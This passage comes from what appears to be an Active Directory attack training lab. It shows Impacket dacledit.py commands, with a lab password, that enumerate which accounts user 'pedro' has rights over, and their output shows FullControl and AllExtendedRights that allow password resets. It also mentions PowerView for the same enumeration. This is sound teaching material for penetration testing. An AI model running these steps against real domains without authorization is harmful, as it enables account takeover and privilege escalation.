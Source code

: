 ```shell
[*]     Object type (GUID)        : User-Force-Change-Password (00299570-246d-11d0-a768-00aa006e0529)
[*]     Trustee (SID)             : pedro (S-1-5-21-1267651629-1192007096-1618970724-4617)

```

#### Querying Pedro's DACL over htb-test

```shell
python3 examples/dacledit.py -principal pedro -target htb-test -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1267651629-1192007096-1618970724-4617)
[*]   ACE[20] info
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : pedro (S-1-5-21-1267651629-1192007096-1618970724-4617)

```

#### Querying Pedro's DACL over joshua

```shell
python3 examples/dacledit.py -principal pedro -target joshua -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1267651629-1192007096-1618970724-4617)
[*]   ACE[20] info
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE
[*]     Access mask               : AllExtendedRights (0x100)
[*]     Trustee (SID)             : pedro (S-1-5-21-1267651629-1192007096-1618970724-4617)

```

As we can see in the above output, the trustee `Pedro` has different access rights that allow him to perform a password reset against these accounts.

If we want to perform the same enumeration from Windows, we can use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). When we include the option `-ResolveGUIDs`, `PowerView` will resolve `GUIDs` to their display names. In the following example, if we do not use `-ResolveGUIDs` for the `yolanda` account, we will get the following:

#### Identifying Pedro's Access Rights over Yolanda

